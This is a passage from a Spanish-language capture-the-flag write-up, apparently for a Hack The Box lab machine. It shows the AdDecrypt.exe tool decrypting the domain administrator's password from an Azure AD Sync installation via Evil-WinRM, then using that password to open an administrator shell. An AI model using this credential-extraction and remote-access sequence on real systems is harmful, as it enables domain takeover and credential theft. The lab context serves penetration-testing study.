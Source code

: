`Ejecutamos` el `binario` y `obtenemos` las `credenciales` del usuario `administrador`, para que funcione debemos estar dentro del directorio `C:\Program Files\Microsoft Azure AD Sync\Bin`

```
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

Nos `conectamos` a la `máquina víctima` como el usuario `Administrator`

```
# evil-winrm -i 10.129.228.111 -u 'administrator' -p 'd0m@in4dminyeah!'   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```
